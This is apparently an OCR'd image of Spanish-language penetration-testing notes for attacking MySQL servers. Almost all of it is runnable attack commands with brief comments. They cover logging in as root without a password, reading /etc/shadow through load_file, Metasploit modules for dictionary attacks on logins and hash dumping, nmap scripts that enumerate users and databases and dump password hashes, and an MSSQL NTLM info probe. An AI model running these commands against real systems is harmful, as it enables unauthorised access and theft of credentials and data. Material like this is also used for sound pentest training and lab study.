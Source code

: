 |                               |                                                                                                                 |
| ----------------------------- | --------------------------------------------------------------------------------------------------------------- |
| >mysql -h 192.168.1.1 -u root | nos conectamos con el user root sin passowrd, si lo solicita escribimos -p al final para que aparezca el prompt |

mysql>show databases

mysql>use books        //Cambiamos a la database books

mysql>select * from authors        //Enumera valores de una tabla específica

mysql>select load_file(“/etc/shadow”)        //Muestra el archivo de la ruta del servidor

Metasploit

msf>use auxiliary/scanner/mysql/mysql_writable_dirs   //ataque de diccionario para directorios de MYSQL. Set PASSWORD(“” si no hay), dir_list (ruta del diccionario), rhosts. Colocar Verbose false para evitar la información demás.

msf(scanner/mysql/mysql_writable_dirs)>set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt   //Por ejemplo.

msf>use auxiliary/scanner/mysql/mysql_hashdump   //Lista de hashes. password “” sino hay

msf>use auxiliary/scanner/mysql/mysql_login        //Ataque diccionario en mysql login

Nmap

>nmap 192.168.1.1 -sV -p 3306 --script=mysql-empty-password  //Busca users sin password

>nmap 192.168.1.1 -sV -p 3306 --script=mysql-empty-info    //Información sobre Capabilities

>nmap 192.168.1.1 -sV -p 3306 --script=mysql-users --script-args=”mysqluser=’root’, mysqlpass=’’”                //Enumera los usuarios de la BD

>nmap 192.168.1.1 -sV -p 3306 --script=mysql-databases --script-args=”mysqluser=’root’, mysqlpass=’’”                //Enumera las diferentes DB a las que se puede acceder

>nmap 192.168.1.1 -sV -p 3306 --script=mysql-variables --script-args=”mysqluser=’root’, mysqlpass=’’”                //Importante datadir: /var/lib/mysql/  ruta donde la DB guarda data

>nmap 192.168.1.1 -sV -p 3306 --script=mysql-audit --script-args=”mysql-audit.username=’root’, mysql-audit.password=’’,mysql-audit.filename=’/usr/share/nmap/nselib/data/mysql-cis.audit’” //Realiza una “auditoria” de la BD comparándolo a lineas base en mysql-cis.audit de nmap.

>nmap 192.168.1.1 -sV -p 3306 --script=mysql-dump-hashes --script-args=”username=’root’, password=’’”        //Muestra los hashes encontrados para el DB

>nmap 192.168.1.1 -sV -p 3306 --script=mysql-query --script-args=”query=’select count(*) from books.authors;’, username=’root’, password=’’”        //realizar un query desde nmap.

>nmap 192.168.1.1 -p 1433 --script ms-sql-ntlm-info --script-args msql.instance-port=1433